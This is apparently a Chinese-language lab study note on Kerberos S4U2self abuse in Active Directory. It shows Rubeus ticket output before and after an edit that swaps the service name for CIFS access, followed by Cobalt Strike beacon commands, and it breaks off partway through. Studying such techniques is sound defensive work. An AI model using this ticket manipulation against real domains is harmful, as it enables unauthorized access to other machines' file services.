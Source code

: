  Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot

```


# S4U2self Abuse

前提：拥有计算机的 RC4、AES256 或 TGT

滥用 S4U2self extension - 如果我们拥有域计算机的 RC4、AES256 或 TGT，则可以访问域计算机

我理解跟上面的原理是一样的，这里是使用了一个```Asn1Editor```工具把原本是```WKSTN-2$```的服务改成了```cifs/wkstn-2.dev.cyberbotic.io```，然后就可以访问wkstn-2.dev.cyberbotic.io的文件服务（cifs）

修改前：
```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN-2$
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

修改后(注意ServiceName的值)：
```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  cifs/wkstn-2.dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

访问文件服务：
```
beacon> getuid
[*] You are DEV\bfarmer
